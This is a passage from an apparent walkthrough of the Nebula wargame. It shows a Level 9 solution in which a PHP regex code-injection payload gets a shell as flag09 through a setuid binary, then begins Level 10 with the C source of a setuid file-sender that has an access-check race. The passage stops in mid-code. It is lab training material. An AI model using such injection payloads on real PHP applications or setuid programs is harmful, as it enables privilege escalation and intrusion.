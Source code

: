 ```bash
level09@nebula:/home/flag09$ echo '[email {${system(sh)}}]' > /tmp/exploit 
level09@nebula:/home/flag09$ ./flag09 /tmp/exploit 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ whoami
flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 10

We have yet another `setuid` binary with the following source code:

```C

#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
```